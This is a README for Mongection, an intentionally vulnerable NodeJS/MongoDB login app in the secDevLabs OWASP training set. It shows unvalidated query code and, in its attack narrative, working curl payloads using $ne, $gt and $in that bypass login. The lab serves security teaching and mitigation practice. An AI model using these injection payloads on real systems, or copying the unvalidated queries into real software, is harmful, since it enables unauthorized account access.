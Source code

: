 # Mongection

<p align="center"><img  src="images/a1-banner.png"/></br><a href="README_PT_BR.md"><img height="24" title="Acessar conteúdo em Português" src="https://img.shields.io/badge/Acessar%20conte%C3%BAdo%20em-Portugu%C3%AAs-blue"/></a></p>

Mongection is a simple NodeJS web application that simulates a login page. It has both `/register` and `/login` routes that, by communicating with a MongoDB, enable users to register and enter into a generic system.

## Index

- [Mongection](#mongection)
  - [Index](#index)
  - [What is Injection?](#what-is-injection)
  - [Setup](#setup)
  - [Get to know the app 💉](#get-to-know-the-app-)
  - [Attack Narrative](#attack-narrative)
    - [👀](#)
      - [Lack of input validation allows injection of NoSQL queries](#lack-of-input-validation-allows-injection-of-nosql-queries)
      - [🔥](#-1)
  - [Secure this app](#secure-this-app)
  - [PR Solutions](#pr-solutions)
  - [Contributing](#contributing)

## What is Injection?

Injection flaws, such as SQL, NoSQL, OS, and LDAP injection, occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorization.

The main goal of this project is to discuss how **NoSQL Injection** vulnerabilities can be exploited and to encourage developers to send Pull Requests to secDevLabs on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][docker install] and [Docker Compose][docker compose install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2021-apps/a3/mongection
```

```sh
make install
```

Then simply visit [localhost:10001][app], as exemplified below:

<img src="images/attack0.png" align="center"/>

## Get to know the app 💉

To properly understand how this application works, you can follow these simple steps:

- Register a new user via front-end.
- Login as this user via front-end.

* Register another user now using command line:

```sh
curl -X POST http://localhost:10001/register -H "Content-Type: application/json" --data '{"name":"bob", "email":"bob@example.com", "password":"bobisboss"}'
```

- Login as this second user now using command line:

```sh
curl -X POST http://localhost:10001/login -H "Content-Type: application/json" --data '{"email":"bob@example.com", "password":"bobisboss"}'
```

## Attack Narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Lack of input validation allows injection of NoSQL queries

After reviewing [db.js](https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2021-apps/a3/mongection/src/db.js) file, it was possible to see that some input from users is concatenated with NoSQL queries, as shown in the following code snippets:

```js
const existUser = await User.findOne({ email: email });
```

```js
const existsUser = await User.find({
  $and: [{ email: email }, { password: password }],
});
```

As no validation is being made on these variables, injected queries may be successfully executed in MongoDB. Some directives like `$ne` or `$gt`, if successfully injected, could bypass API authentication.

#### 🔥

An attacker could create a malicious query such as `{"$ne":""}` and pass it to email and password fields. Since `$ne` is the not equals condition in MongoDB, this is querying all the entries in the logins collection where both `username` and `password` are not equal to "" (empty).

Using `curl` on CLI interface, the malicious payload could be sent as shown bellow:

```sh
curl -X 'POST' 'http://localhost:10001/login' -H "Content-Type: application/json" --data '{"email": {"$ne":""}, "password": {"$ne":""}}'
```

<p  align="center"><img  src="images/attack1.png"/></p>

The application will return the first user that MongoDB finds with a "Hello, Welcome Again!" message, demonstrating that authentication has been bypassed. There must be at least one user already registered in the database to recieve this message.

The same result could be reached if the attacker sent a payload using `$gt` (greater than) directive. The following query will search for entries with both `username` and `password `fields greater than "" (empty).

```sh
curl -X 'POST' 'http://localhost:10001/login' -H "Content-Type: application/json" --data '{"email": {"$gt": ""}, "password": {"$gt": ""}}'
```

<p  align="center"><img  src="images/attack2.png"/></p>

Another possible malicious payload could use `$in` directive. The following query will iterate through every element of the given array and try each value listed for the `username` field. Also, `{"$gt":""}` will guarantee the `password` field is not evaluated.

```sh
curl -X 'POST' 'http://localhost:10001/login' -H "Content-Type: application/json" --data '{"email": {"$in":["admin@example.com", "root@example", "ana@example.com", "bob"]}, "password": {"$gt":""}}'
```

<p  align="center"><img  src="images/attack3.png"/></p>

## Secure this app

How could you now mitigate this vulnerability? After your code modification, an attacker should not be able to:

- Run NoSQL queries in the database.

## PR Solutions

[Spoiler alert] To understand how this vulnerability can be mitigated, check [these pull requests](https://github.com/globocom/secDevLabs/pulls?utf8=%E2%9C%93&q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Mongection%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10001
